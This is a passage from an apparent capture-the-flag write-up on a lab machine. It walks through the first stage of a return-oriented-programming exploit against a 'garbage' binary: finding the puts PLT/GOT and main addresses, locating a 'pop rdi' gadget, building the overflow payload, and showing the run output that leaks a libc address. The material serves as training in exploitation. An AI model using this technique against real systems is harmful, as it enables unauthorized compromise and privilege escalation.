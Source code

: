 
We have then to leak the address where the `puts()` function is at runtime and the address of the `main()` function, where we will return after having leaked the needed address. In order to do so, we run:

<pre>
root@pentestbox:~# objdump -D garbage | grep puts
0000000000401050 <puts@plt>:
  <b>401050</b>:	ff 25 d2 2f 00 00    	jmpq   *0x2fd2(%rip)        # <b>404028</b> <puts@GLIBC_2.2.5>
  [...]

root@pentestbox:~# objdump -D garbage | grep main
  401194:	ff 15 56 2e 00 00    	callq  *0x2e56(%rip)        # 403ff0 <__libc_start_main@GLIBC_2.2.5>
<b>0000000000401619</b> < main >:
  [...]
</pre>

We got then:

- puts_plt = 0x401050
- puts_got = 0x404028
- main_plt = 0x401619

To create properly our ROP-chain, we have to find a POP RDI gadget, which will allow us to remove unnecessary things from the stack. So, we run inside of gdb-peda:

<pre>gdb-peda$ ropsearch "pop rdi"
Searching for ROP gadget: 'pop rdi' in: binary ranges
<b>0x0040179b</b> : (b'5fc3')	pop rdi; ret</pre>

Our payload will look like to something like this:

	payload = junk + pop_rdi + puts_got + puts_plt + main_plt

Where `junk` is 136 `a` and the other variables are the addresses found previously. Note that at the end of our payload we put `main_plt`, to make the program return to a stable state. 

The run produces the desired output:

	root@pentestbox:~# python stage1.py
	[+] Connecting to 10.10.10.139 on port 22: Done
	[*] margo@10.10.10.139:
	    Distro    Ubuntu 18.04
	    OS:       linux
	    Arch:     amd64
	    Version:  4.15.0
	    ASLR:     Enabled
	[+] Starting remote process '/usr/bin/garbage' on 10.10.10.139: pid 1987
	[*] Stage 1: Leak address. Payload:
	    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x9b\x17@\x00\x00\x00\x00\x00(@@\x00\x00\x00\x00\x00P\x10@\x00\x00\x00\x00\x00\x19\x16@\x00\x00\x00\x00\x00
	[DEBUG] Sent 0xa9 bytes:
	    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
	    *
	    00000080  41 41 41 41  41 41 41 41  9b 17 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
	    00000090  28 40 40 00  00 00 00 00  50 10 40 00  00 00 00 00  │(@@·│····│P·@·│····│
	    000000a0  19 16 40 00  00 00 00 00  0a                        │··@·│····│·│
	    000000a9
	[DEBUG] Received 0x1 bytes:
	    '\n'
	[DEBUG] Received 0x2d bytes:
	    00000000  61 63 63 65  73 73 20 64  65 6e 69 65  64 2e 0a c0  │acce│ss d│enie│d.··│
	    00000010  79 61 8a 25  7f 0a 45 6e  74 65 72 20  61 63 63 65  │ya·%│··En│ter │acce│
	    00000020  73 73 20 70  61 73 73 77  6f 72 64 3a  20           │ss p│assw│ord:│ │
	    0000002d
	�ya\x8a%\x7f
